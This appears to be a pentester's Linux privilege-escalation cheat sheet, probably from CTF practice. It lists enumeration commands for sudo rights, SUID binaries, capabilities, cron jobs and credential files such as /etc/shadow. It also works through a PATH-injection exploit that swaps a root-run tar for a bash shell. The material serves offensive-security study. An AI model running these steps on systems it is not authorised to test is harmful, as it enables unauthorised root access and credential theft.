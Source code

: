 ## Check History:
```bash
history
```

## Check what you can run as SUDO:
```bash
sudo -l
```
## SUID binaries [GTFOBins](https://gtfobins.github.io/):
```bash
find / -perm u=s 2>/dev/null
find / -perm /4000 2>/dev/null
```

## Capabilities [GTFOBins](https://gtfobins.github.io/):
```bash
getcap -r / 2>/dev/null
```

## List open ports:
```bash
ss -tulp
```

## List active processes:
```bash
ps -aux
```

## Spy on processes:
```bash
pspy
```

## Look for cronjobs:
```bash
crontab -l

cat /etc/crontab

ls -l /etc/cron.d

ls -la /etc/cron.hourly
```

## Look for unusual files :
- .txt
- .db
- .yaml
- .log
- .conf
- .old
```bash
find . -name '*.txt' 2>/dev/null
```

## Check Kernel Version:
```bash
uname -a
cat /proc/version
cat /etc/os-release
```

## Check for Weak File Permissions:
```bash
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
```

## Path injection:
```bash
# This command is runned as sudo from a binary /usr/bin/pandora_backup
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*

#We can change the path for tar with a bash binary
echo "/bin/bash" > /var/tmp/tar
chmod +x /var/tmp/tar
export PATH=/var/tmp:$PATH
/usr/bin/pandora_backup
```
## Check if you are in a container:
- Environment variables
```bash
env
```
- Multiple interfaces:
```bash
ipconfig
```

## Check for Docker Privileges:
```bash
docker ps -a
groups
```

## Important files:
- /etc/passwd
- /etc/shadow
- 